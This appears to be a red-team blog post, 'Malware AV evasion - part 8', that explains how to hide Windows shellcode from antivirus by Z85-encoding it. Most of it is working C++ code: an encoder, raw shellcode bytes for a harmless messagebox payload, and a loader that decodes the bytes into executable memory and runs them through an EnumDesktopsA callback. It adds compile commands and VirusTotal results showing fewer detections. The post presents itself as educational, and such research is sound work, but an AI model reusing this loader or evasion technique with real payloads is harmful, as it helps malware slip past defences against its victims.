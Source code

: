 ```yaml
---
title:  "Malware AV evasion - part 8. Encode payload via Z85 algorithm. C++ example."
date:   2022-07-30 09:00:00 +0600
header:
  teaser: "/assets/images/64/2022-07-31_16-39.png"
categories:
  - malware
tags:
  - evasion
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![av-evasion](/assets/images/64/2022-07-31_16-39.png){:class="img-responsive"}

This post is the result of self-researching interesting trick: encoding payload via Z85.    

Since the methods of encrypting the payload with the [AES](https://github.com/cocomelonc/peekaboo/tree/aes) and [XOR](/tutorial/2021/09/04/simple-malware-av-evasion.html) algorithms and encoding (for example, with the base64 algorithm) have been studied with blue teamers quite well, the question arose to try to hide the payload in a non-standard way.     

### Z85

*Ascii85*, also called *Base85*, is a form of binary-to-text encoding used to communicate arbitrary binary data over channels that were designed to carry only English language human-readable text. *Z85* a format for representing binary data as printable text. [Z85](https://rfc.zeromq.org/spec/32/) is a derivative of existing Ascii85 encoding mechanisms, modified for better usability, particularly for use in source code.     

### practical example

Let's go to look at a practical example. First of all encode our payload via Z85 (`encode.cpp`):

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

char* encode(const char* src, size_t len) {
   // allocate output buffer (+1 for null terminating char)
   char* dest = (char*)malloc(Z85_encode_with_padding_bound(len) + 1);

   if (len == 0) {
      dest[0] = '\0'; // write null terminating char
      return dest;
   }

   // encode the input buffer, padding it if necessary
   len = Z85_encode_with_padding(src, dest, len);

   if (len == 0) { // something went wrong
      free(dest);
      return NULL;
   }

   dest[len] = '\0'; // write null terminating char

   return dest;
}

unsigned char payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {
   char* str = encode((const char*)payload, sizeof(payload));
   if (str) {
      printf("%s\n", str);
      free(str);
   }
   return 0;
}
```

Then compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 encode.cpp -o encode.exe -I/usr/share/mingw-w64/include/ -I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/64/2022-07-31_16-54.png){:class="img-responsive"}       

and run:

```powershell
.\encode.exe
```

![av-evasion](/assets/images/64/2022-07-31_17-17.png){:class="img-responsive"}       

As usually, for simplicity I used `meow-meow` messagebox payload:

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Then, in the next step we put this encoded payload to our "malware". I took the technique of running payload from one of the [previous](/tutorial/2022/06/27/malware-injection-20.html) articles:    

```cpp
/*
* hack.cpp
* Z85 encode payload
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2022/07/30/malware-av-evasion-8.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

int main(int argc, char* argv[]) {
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  char e_my_payload[] = "2@78z1[C&K*>*fqf06%EFp/pd>nhnL7nq*wNk1HPf7^pGGqxOd]I/ISTndSg4n>?4Znhm]YjyJQsefEl{:QHJp.q:&Wk#x*pI=7VYI:xJ%0NK2*Fqsg907.*VBz<XJ=}(]:neKJUI:eyR0NP>inDl^}l5NNQncdpog08%vZ]P&r:QHJp.8Qv}[JGRGoE6)jiNJ02suYchkQn]4=$kEcIWScum2KqInDEg4l5L(4ncd76sv34}sZ19[l0lGSnq3mKk#N:vsv37[k1HOA>$g{P%6njp.2KDn06S@kL]oV606T8oG^u:107X&^laPHqrTnVPYwKXV3phn2Ma-:*!KUthc{dYY3v@3iBP]xE6ln2a09IQA*w/X$wP8=AzdNTfaPKVie?QD[00000";
  char d_my_payload[314] = {};
  size_t d = Z85_decode_with_padding(e_my_payload, d_my_payload, strlen(e_my_payload));
  LPVOID mem = VirtualAlloc(NULL, sizeof(d_my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, d_my_payload, sizeof(d_my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, 0);
  return 0;
}
```

Many thanks to [@artemkin](https://github.com/artemkin/z85) for real-worked C/C++ implementation, also encoding/decoding with padding.   

### demo

Let's go to see everything in action. Compile our "malware":

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/64/2022-07-31_17-21.png){:class="img-responsive"}     

and run in our victim's machine:

```powershell
.\hack.exe
```

![av-evasion](/assets/images/64/2022-07-31_17-32.png){:class="img-responsive"}

As you can see, everything is work perfectly :)   

Let's go to upload `hack.exe` to VirusTotal:

![av-evasion](/assets/images/64/2022-07-31_17-34.png){:class="img-responsive"}

**So, 14 of 70 AV engines detect our file as malicious.**

[https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection](https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection)    

if you remember, this technique without encoding showed the result **16 of 66**:    

![av-evasion](/assets/images/60/2022-06-27_14-37.png){:class="img-responsive"}      

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)      

**We have reduced the number of AV engines which detect our malware from 16 to 14**!    

So it can be assumed that evasion works.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

[Z85](https://rfc.zeromq.org/spec/32/)    
[https://github.com/artemkin/z85](https://github.com/artemkin/z85)    
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)     
[source code in github](https://github.com/cocomelonc/2022-07-29-malware-av-evasion-8)      

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!
*PS. All drawings and screenshots are mine*
